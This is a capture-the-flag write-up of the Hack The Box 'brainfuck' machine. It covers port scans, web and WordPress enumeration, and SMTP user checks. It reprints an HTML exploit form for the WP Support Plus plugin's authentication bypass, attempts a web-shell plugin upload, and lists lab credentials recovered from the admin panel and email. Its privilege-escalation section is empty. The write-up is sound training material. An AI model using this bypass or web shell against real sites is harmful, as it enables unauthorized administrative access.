

# brainfuck - 10.10.10.17

# scan

```
❯ sudo rustscan --ulimit 5000 -a 10.10.10.17 -- -n -Pn -sV -sC -oA tcp-all

Nmap scan report for 10.10.10.17
Host is up, received user-set (0.017s latency).
Scanned at 2022-04-18 21:26:46 EDT for 51s

PORT    STATE SERVICE  REASON         VERSION
22/tcp  open  ssh      syn-ack ttl 63 OpenSSH 7.2p2 Ubuntu 4ubuntu2.1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 94:d0:b3:34:e9:a5:37:c5:ac:b9:80:df:2a:54:a5:f0 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDUvFkWE1DxJj4OsU4DiVLjkxYV2a9pSlMS/78hpx0IejJaFilgNb+RFCyfyhIw5NvsZB6hZiNL0vPDh+MscPd75heIIgx9mczfamsrA2KODdkdgUJPCBWUnF9/VhYQhJpGvo4f6lAwLz7wnmcjhiXencMNkZcweADi5aK0Xp6iFxYcwx6+qy0891gQ5TnVVazkDJNA+QMUamxJRm1tQN5dp/+TeBecWJH2AxQFXsM4wPkIFaE0GsKvYDmGyfy1YL/Gn5IxEqVrhIEYkDH4BQsbvORNueOtJKHoys7EhPF+STpx6ZAXS6AXhS/nJMz6EvubzeGqfBOaDIZN9u5JuCdf
|   256 6b:d5:dc:15:3a:66:7a:f4:19:91:5d:73:85:b2:4c:b2 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBCJcOJZuuBlw9xDXy+VPpezMomPfySGOjABaxw02cmRifvzWE57mh1hlQD6z44IF1lsuW9E2NNH4xB4d8U0O5b0=
|   256 23:f5:a3:33:33:9d:76:d5:f2:ea:69:71:e3:4e:8e:02 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIOokdEAUqLEqEuY1CHNJ2xaDU+L+/0qb3XZO8UIZfrju
25/tcp  open  smtp     syn-ack ttl 63 Postfix smtpd
|_smtp-commands: brainfuck, PIPELINING, SIZE 10240000, VRFY, ETRN, STARTTLS, ENHANCEDSTATUSCODES, 8BITMIME, DSN
110/tcp open  pop3     syn-ack ttl 63 Dovecot pop3d
|_pop3-capabilities: CAPA UIDL AUTH-RESP-CODE SASL(PLAIN) PIPELINING TOP RESP-CODES USER
143/tcp open  imap     syn-ack ttl 63 Dovecot imapd
|_imap-capabilities: OK have AUTH=PLAINA0001 SASL-IR IMAP4rev1 ID post-login ENABLE listed capabilities LOGIN-REFERRALS IDLE more Pre-login LITERAL+
443/tcp open  ssl/http syn-ack ttl 63 nginx 1.10.0 (Ubuntu)
|_http-title: Welcome to nginx!
| http-methods:
|_  Supported Methods: GET HEAD
| tls-alpn:
|_  http/1.1
|_ssl-date: TLS randomness does not represent time
| tls-nextprotoneg:
|_  http/1.1
|_http-server-header: nginx/1.10.0 (Ubuntu)
| ssl-cert: Subject: commonName=brainfuck.htb/organizationName=Brainfuck Ltd./stateOrProvinceName=Attica/countryName=GR/emailAddress=orestis@brainfuck.htb/localityName=Athens/organizationalUnitName=IT
| Subject Alternative Name: DNS:www.brainfuck.htb, DNS:sup3rs3cr3t.brainfuck.htb
| Issuer: commonName=brainfuck.htb/organizationName=Brainfuck Ltd./stateOrProvinceName=Attica/countryName=GR/emailAddress=orestis@brainfuck.htb/localityName=Athens/organizationalUnitName=IT
| Public Key type: rsa
| Public Key bits: 3072
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2017-04-13T11:19:29
| Not valid after:  2027-04-11T11:19:29
| MD5:   cbf1 6899 96aa f7a0 0565 0fc0 9491 7f20
| SHA-1: f448 e798 a817 5580 879c 8fb8 ef0e 2d3d c656 cb66
| -----BEGIN CERTIFICATE-----
| MIIFQzCCA6ugAwIBAgIJAI24F5h8eY+HMA0GCSqGSIb3DQEBCwUAMIGTMQswCQYD
| VQQGEwJHUjEPMA0GA1UECAwGQXR0aWNhMQ8wDQYDVQQHDAZBdGhlbnMxFzAVBgNV
| BAoMDkJyYWluZnVjayBMdGQuMQswCQYDVQQLDAJJVDEWMBQGA1UEAwwNYnJhaW5m
| dWNrLmh0YjEkMCIGCSqGSIb3DQEJARYVb3Jlc3Rpc0BicmFpbmZ1Y2suaHRiMB4X
| DTE3MDQxMzExMTkyOVoXDTI3MDQxMTExMTkyOVowgZMxCzAJBgNVBAYTAkdSMQ8w
| DQYDVQQIDAZBdHRpY2ExDzANBgNVBAcMBkF0aGVuczEXMBUGA1UECgwOQnJhaW5m
| dWNrIEx0ZC4xCzAJBgNVBAsMAklUMRYwFAYDVQQDDA1icmFpbmZ1Y2suaHRiMSQw
| IgYJKoZIhvcNAQkBFhVvcmVzdGlzQGJyYWluZnVjay5odGIwggGiMA0GCSqGSIb3
| DQEBAQUAA4IBjwAwggGKAoIBgQCjBI0m6FWgcLYONyxVeMgc+PuTFJMnMUjMb8BF
| t0PIDSCt10grCCfzBNDIqfU9byiokyYVvvD+sRoWJQfMjd3I3NXMxHwpcLM6X9oR
| Twt1iBBJRQkTnHOs1hyCmkiM+kn2W1xdL+mwBylAUlvUReLIDdS5anE7u95ApWsD
| TTUt/mMUl1DwnCqrNkt3czQzCNfCIwIhbaLjsoXsiVo1fFEr6UpsyiaXad9eTTsl
| EF9k3rByXrmP1WrkaFLqGhqS4v+rYtsyKGPngjAB664aAvB2sSI0/EuOTa7WOPcV
| NP3Tga+zx55qXPeo6nqCttOlAKKwiZqba5AgDAjSFdB6Q60dghWSuRYU999Ku6zA
| DdwP0BoT5+kcZJENY7wx1uzysSMrtCoi8E6bfx42UwNQe/UCDDXErXat90hTB+vV
| h2vaSdyR0tz3w1iIHBZH5/3rY3f+LyfE9fSg2TbGFgZNDq6O/iykVWb9SG+tl1fA
| RB208Y1/mOw0+84G9RIjLVMLb0kCAwEAAaOBlzCBlDAdBgNVHQ4EFgQUj12KscJg
| /6gSHzm+kzSN/psvik8wHwYDVR0jBBgwFoAUj12KscJg/6gSHzm+kzSN/psvik8w
| DAYDVR0TBAUwAwEB/zALBgNVHQ8EBAMCBeAwNwYDVR0RBDAwLoIRd3d3LmJyYWlu
| ZnVjay5odGKCGXN1cDNyczNjcjN0LmJyYWluZnVjay5odGIwDQYJKoZIhvcNAQEL
| BQADggGBAJ11TuRhhSQfq5NHXU5fV5VkCOPUx3yKsWjt93Qm8WDD2rJcZAq8jW59
| NHDWhzDlKZMyNYv8gKJ8k6HuG3f20yeifKZulGw/YsY6dDtTzO+tooBqzjWb9irh
| bpMIVXv1xBSuz+f5YGdzpvlMK/Ltt1nEQNjKXaTnjy7OGfp4isMZCzBZeKAKnjdn
| +s6TgFrFA94B56naXNaNLHvv9WcFKviwDTP2PtDz0fc9hbnZz8oxE5Q6/l50NGUK
| 6bGCVIjDJfM/SsWPLHb4J6chkJxlZZLmpid+s5PsKSdY0ZZ1Oxb20O2mla77hDSJ
| d43t/sZRBwWPEWxAHUR8Dj5pcrbCFyi57Qu4ENc5w7H0RhRyd0/OWs6ahn2ef4Qy
| DSWfdpd5CVBGdSLVlVSjzLcBDmWuyy8q5CTgJ3VzIzOreg93F2mVAF+tlNZRX9rc
| dFjsS0lwXWRZqd6642VuAtf4HoAFBh9PfBtUx+t1DxCXyY7OTwnvMsnNFg9fw11v
| krhc81zFeg==
|_-----END CERTIFICATE-----
Service Info: Host:  brainfuck; OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

# get access

Running default web scans for web page at port 443:

```sh
❯ whatweb -v -a3 https://10.10.10.17
# Summary   : HTML5, HTTPServer[Ubuntu Linux][nginx/1.10.0 (Ubuntu)], nginx[1.10.0]

❯ ulimit -n 8192 # prevent file access error during scanning
❯ gobuster dir -ezqrkw /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x "html,htm,txt,sh,php,cgi" -u https://10.10.10.17 -o gobust.log
https://10.10.10.17/index.html           (Status: 200) [Size: 612]
```

Searchsploit turned up no results for `nginx 1.10`.

Browsing to the web page at port 443 just shows default nginx welcome page.

Viewing SSL certificate reveals email address:

- `orestis@brainfuck.htb`

And also reveals DNS entries:

- `www.brainfuck.htb` - same default nginx page
- `sup3rs3cr3t.brainfuck.htb` - a secret forum!


Running common web scans on supersecret page:

```sh
❯ whatweb -v -a3 https://sup3rs3cr3t.brainfuck.htb
# Summary   : Cookies[flarum_session], HTML5, HTTPServer[Ubuntu Linux][nginx/1.10.0 (Ubuntu)], HttpOnly[flarum_session], nginx[1.10.0], Script, UncommonHeaders[x-csrf-token]

# have to manually ignore status code 500, becuase gobuster fails with error if not:
# Error: the server returns a status code that matches the provided options for non existing urls. https://sup3rs3cr3t.brainfuck.htb/ac5d6b4a-7f3a-46c1-834f-bc439fda2d48 => 500 (Length: 21). To continue please exclude the status code, the length or use the --wildcard switch
❯ gobuster dir -ezqrkw /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x "html,htm,txt,sh,php,cgi" -u https://sup3rs3cr3t.brainfuck.htb -o gobust-supersecret.log -b 404,500
https://sup3rs3cr3t.brainfuck.htb/uploads              (Status: 403) [Size: 178]
https://sup3rs3cr3t.brainfuck.htb/scripts              (Status: 403) [Size: 178]
https://sup3rs3cr3t.brainfuck.htb/assets               (Status: 403) [Size: 178]
https://sup3rs3cr3t.brainfuck.htb/all                  (Status: 200) [Size: 6741]
https://sup3rs3cr3t.brainfuck.htb/storage              (Status: 403) [Size: 178]
https://sup3rs3cr3t.brainfuck.htb/tags                 (Status: 200) [Size: 5094]
https://sup3rs3cr3t.brainfuck.htb/logout               (Status: 200) [Size: 6741]
https://sup3rs3cr3t.brainfuck.htb/config.php           (Status: 200) [Size: 0]
https://sup3rs3cr3t.brainfuck.htb/vendor               (Status: 403) [Size: 178]
https://sup3rs3cr3t.brainfuck.htb/LICENSE              (Status: 200) [Size: 1083]
```

Googling the cookie string 'flarum_session' returns results about Laravel, which is a PHP framework.

Browsing to config.php page returns empty result. License page is just MIT license. 'Tags' is just posts by tag and 'all' is all posts.

Browsing through Discussion posts, see posts from `admin` and `orestis` users, but posts just say `test` and `hello`.

Registering a user for the forum: `derp`, email: `derp@derp.com`, password: `herpaderp`. Don't see anything new, probably because email still needs to be confirmed.

Moving on to check out the email services to see if there is any value there.

Forgot to searchsploit ssh: `OpenSSH 7.2` returned some user enumeration vulns, but nothing looks useful at the moment.

Searchsploit smtp postfix returns one hit:

- `Postfix SMTP 4.2.x < 4.2.48 - 'Shellshock' RCE | linux/remote/34896.py`

Connecting with netcat:

```sh
❯ nc 10.10.10.17 25
> ehlo x
> vrfy orestis
252 2.0.0 orestis
> vrfy notreal
550 5.1.1 <notreal>: Recipient address rejected: User unknown in local recipient table
```

At least we know the orestis user is real.

Searchsploit for 'dovecot' (IMAP) returns 2 semi-interesting results:

- `Dovecot IMAP 1.0.10 < 1.1rc2 - Remote Email Disclosu | multiple/remote/5257.py`
- `Dovecot with Exim - 'sender_address' Remote Command  | linux/remote/25297.txt`

But we need to know the version to see if these apply.

----

Derp. Got stuck after looking at the mail services. Contemplated brute forcing login creds for the forum, but then took a hint from ippsec's walkthrough. Realized I overlooked a domain in the SSL cert: `brainfuck.htb`. Browsing there reveals another site:


:poop: :exclamation: :poop: :exclamation: :poop: :exclamation: :poop: :exclamation: :poop: :exclamation:

**Lesson Learned:** Try every DNS domain! Don't overlook any!

:poop: :exclamation: :poop: :exclamation: :poop: :exclamation: :poop: :exclamation: :poop: :exclamation:

The site mentions SMTP integration. Not sure how to use that yet, but still noteworthy.

Standard scans:

```sh
❯ whatweb -v -a3 https://brainfuck.htb
# Summary   : Bootstrap[4.7.3], Email[ajax-loader@2x.gif,orestis@brainfuck.htb], HTML5, HTTPServer[Ubuntu Linux][nginx/1.10.0 (Ubuntu)], JQuery[1.12.4], MetaGenerator[WordPress 4.7.3], Modernizr, nginx[1.10.0], PoweredBy[WordPress,], Script[text/javascript], UncommonHeaders[link], WordPress[4.7,4.7.3]
# Headers snippet:
# 	Link: <https://brainfuck.htb/?rest_route=/>; rel="https://api.w.org/"

❯ gobuster dir -ezqrkw /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -x "html,htm,txt,sh,php,cgi" -u https://brainfuck.htb -o gobust-wp.log
# timeout error... site is being really slow

❯ wpscan --update --disable-tls-checks --url https://brainfuck.htb/ | tee wpscan.log
[+] XML-RPC seems to be enabled: https://brainfuck.htb/xmlrpc.php
[+] WordPress readme found: https://brainfuck.htb/readme.html
[+] WordPress version 4.7.3 identified (Insecure, released on 2017-03-06).
[+] WordPress theme in use: proficient
 | [!] The version is out of date, the latest version is 3.0.84
 | Version: 1.0.6 (80% confidence)
[+] wp-support-plus-responsive-ticket-system
 | [!] The version is out of date, the latest version is 9.1.2
 | Version: 7.1.3 (100% confidence)
```

The "Open Ticket" link leads to empty page. Clicking on the "Dev Update" page lets you leave a reply to the post.

Going to wp-login page (`/wp-login.php`). Trying to log in with:

- admin:admin - FAIL
- admin:password - FAIL

Checking searchsploit for wordpress:

```sh
❯ searchsploit wordpress 4.7.3
------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                    |  Path
------------------------------------------------------------------ ---------------------------------
WordPress Core < 4.7.4 - Unauthorized Password Reset              | linux/webapps/41963.txt
WordPress Core < 5.2.3 - Viewing Unauthenticated/Password/Private | multiple/webapps/47690.md
```

The two exploits seemed promising, but didn't know how to set up a malicious mail server for the password reset, and couldn't get anything valuable/secret from the 2nd one.

Nothing found on searchsploit for wordpress theme proficient, nor wp-support-plus-responsive-ticket-system.

Trying more aggressive wordpress scan:

```sh
❯ wpscan --update --disable-tls-checks \
       --url https://brainfuck.htb/ \
       --enumerate ap,at,cb,dbe,u \
       --detection-mode aggressive \
       --random-user-agent \
       --plugins-detection aggressive \
       --plugins-version-detection aggressive | tee wpscan-aggressive.log
[i] Plugin(s) Identified:
[+] akismet
 | [!] The version is out of date, the latest version is 4.2.2
 | Version: 3.3 (100% confidence)
[+] easy-wp-smtp
 | [!] The version is out of date, the latest version is 1.4.7
 | [!] Directory listing is enabled
 | Version: 1.2.5 (100% confidence)
[i] User(s) Identified:
[+] admin
[+] administrator
```

Nothing new found in searchsploit.

Got stuck, peeked at walkthrough, and also re-ran wpscan at same time with API key. This time it comes up with vulnerabilities in wordpress version and the wp-support-plus-responsive-ticket-system. This time, using searchsploit with spaces instead of dashes in plugin name reveals juicy stuff:

```sh
❯ searchsploit wp support plus responsive ticket system
------------------------------------------------------------------ ---------------------------------
 Exploit Title                                                    |  Path
------------------------------------------------------------------ ---------------------------------
WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - | php/webapps/40939.txt
WordPress Plugin WP Support Plus Responsive Ticket System 7.1.3 - | php/webapps/41006.txt
```

Exploit 41006 says we can log in as wordpress administrator without any password! Here is the modified HTML form that they provide to perform the exploit (`pwn.html`):

```html
<html>
<head></head>
<body>
<form method="post" action="https://brainfuck.htb/wp-admin/admin-ajax.php">
  Username: <input type="text" name="username" value="administrator">
  <input type="hidden" name="email" value="sth">
  <input type="hidden" name="action" value="loginGuestFacebook">
  <input type="submit" value="Login">
</form>
</body>
</html>
```

Then, visit the page, change the username to `admin`, submit the form, and navigate up one level to `/wp-admin/`:



Note, the first time I tried, I logged in as "administrator" and got this page, which wasn't nearly as helpful.


Trying to edit the WP theme. Go to Appearance > Editor > Select theme "Specia" > 404 Template. Unfortunately, the themes don't seem to be editable.


Maybe I can install a malicious plugin. Grab evil wordpress plugin from [SecLists](https://github.com/danielmiessler/SecLists/blob/master/Web-Shells/WordPress/plugin-shell.php), found on disk at `/usr/share/seclists/Web-Shells/WordPress/plugin-shell.php`, and zip it up:

```sh
❯ cp /usr/share/seclists/Web-Shells/WordPress/plugin-shell.php .
❯ zip ws.zip plugin-shell.php
```

Then go to Plugins > Add New > select wp.zip > click Upload. But we get an error?


Dang, so it looks like the whole directory isn't writable.

Poking around some more and see Settings > Easy WP SMTP. Scrolling down, it has a password field for the orestis user, but the charachters are obscured. Right-click on password field > Inspect.


Finally! Something we can use for some progress! SMTP credentials:

- orestis:kHGuERB29DNiNE

Let's see if we can read Orestis' email. Open Thunderbird mail app, and add user account for orestis:


But it complains that I supplied the wrong password? Changed settings around, and eventually set the "username" field to just be "orestis" and that fixed it!

Looking at orestis' email, see 2 messages. The one titled "Forum Access Details" has creds to the secret forum in it!


Creds for secret forum:

- orestis:kIEnnfEKJ#9UmdO

Now that I'm done with the email stuff, delete the account from Firebird by clicking hamburger menu > Account Settings > Account Actions > Remove Account.

Now log into the secret forum as orestis:


Checking the one labeled SSH Access first:


Looks like we should be able to get the ssh key, but we may have encryption to deal with?

Checking the thread "Key", we see gibberish:


This must be the encrypted thread to get the ssh key. Orestis seems to use the same signature block in every post, even when encrypted ("Orestis - Hacking for fun and profit"), based on the format of the encrypted text matching the previous thread we saw. It appears the encryption is some type of substitution cipher. We should be able to do a known plaintext attack to recover the key!

Let's try ROT-13:

```sh
❯ rot13 Qbqquzs - Pnhekxs dpi fca fhf zdmgzt
Doddhmf - Caurxkf qcv spn sus mqztmg
```

 Nope.

Seeing if I can identify the cipher. Going to [https://www.dcode.fr/cipher-identifier](https://www.dcode.fr/cipher-identifier), and plugging in the salutation ciphertext/plaintext pairing to see what it thinks.


Looks like most likely a Vigenere Cipher. The website explains the Vigenere Cipher process:

```
In order to cipher a text, take the first letter of the message and the first letter of the key, add their value (letters have a value depending on their rank in the alphabet, starting with 0). The result of the addition modulo 26 (26=the number of letter in the alphabet) gives the rank of the ciphered letter.

Example: To crypt DCODE, the key is KEY and the alphabet is ABCDEFGHIJKLMNOPQRSTUVWXYZ.

Example: Take the first letters of the plaintext D (value = 3) and of the key K (value = 10) and add them (3+10=13), the letter with value 13 is N.

Continue with the next letter of the plaintext, and the next letter of the key. When arrived at the end of the key, go back to the first letter of the key.
```

Trying to use the website's bruteforce tool fails miserably, but since I have known-plaintext, I should be able to recover the key myself.


# privesc

